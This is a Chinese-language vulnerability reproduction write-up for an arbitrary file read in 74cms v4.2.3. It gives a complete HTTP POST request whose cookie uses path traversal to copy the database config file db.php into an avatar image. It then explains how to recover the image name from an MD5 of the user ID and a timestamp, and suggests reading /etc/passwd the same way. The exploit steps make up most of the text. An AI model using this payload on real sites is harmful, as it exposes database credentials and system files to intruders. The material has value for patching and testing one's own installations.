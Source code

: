 74cms v4.2.3任意文件读取
========================

一、漏洞简介
------------

二、漏洞影响
------------

74cms v4.2.3

三、复现过程
------------

先尝试读取 db.php，向服务器post如下数据

    POST /index.php?m=&c=members&a=register HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php; members_bind_info[type]=qq; members_uc_info[password]=xcxmiku; members_uc_info[uid]=123456; members_uc_info[username]=xcxmiku
    Content-Type: application/x-www-form-urlencoded

    ajax=1&reg_type=2&utype=2&org=bind&ucenter=bind

会返回如下数据

1.png

在/data/upload/avatar/年月/日文件夹下 会生成一张图片

2.png

这张图片的名称由id和时间戳的md5值构成，我们可以将Burp
Suite上返回的时间转换为时间戳

3.png

不过这个时间可能会有误差，如果不行就把时间+-10

我post的id为654321，获取的时间戳为1571659588，将他们连在一起进行md5加密

4.png

成功获取图片名，然后访问

    https://www.0-sec.org/data/upload/avatar/1910/21/9aaa3653bf6ec9491bc002b52521962c.jpg 

保存该图片用文本打开就是 db.php 的内容。

###### PS:

使用post提交，参数如下

5.png

在Header可获取到时间戳

6.png

### 可能会遇到的问题

###### post数据返回unicode编码

因为名称，密码，ID等内容格式不对或重复会出现这种情况，将unicode编码进行解码，按提示修改即可。

###### 读取其他文件

../../../../Application/Common/Conf/db.php

是读取db.php，如果想读取根目录可以构造

../../../../../../../../etc/passwd

###### 时间戳问题

服务器返回的时间，服务器返回的是GMT格林威治标准时间，没有加上时区，只记录分秒即可
